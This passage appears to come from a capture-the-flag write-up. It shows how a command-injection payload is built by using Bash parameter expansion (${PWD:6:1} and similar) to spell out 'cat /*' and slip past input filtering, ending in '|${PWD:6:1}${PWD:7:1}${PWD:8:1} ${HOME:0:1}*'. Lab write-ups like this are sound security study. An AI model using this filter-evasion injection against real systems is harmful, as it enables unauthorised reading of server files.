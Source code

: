 ```dockerfile
ENV PORT=3000

CMD ["npm", "start"]
```

## Final Exploit Payload
After some research, I found a Bash trick → **parameter expansion**: `${VAR:offset:length}`.
**Now all we need to do is `cat /*`**

- `${PWD}` → `/application`
    
    ![Screenshot 2025-08-24 201113.png](Screenshot_2025-08-24_201113.png)
    
- `${PWD:6:1}` → `c`
- `${PWD:7:1}` → `a`
- `${PWD:8:1}` → `t`
- `${HOME:0:1}` → `/`

So we can build `cat /*` via expansion:

**Final payload:**

```bash
|${PWD:6:1}${PWD:7:1}${PWD:8:1} ${HOME:0:1}*
```

## Flag Capture
Extracted the flag successfully:
![Pasted image 20250823142003.png](Pasted_image_20250823142003.png)

And finally got the flag:
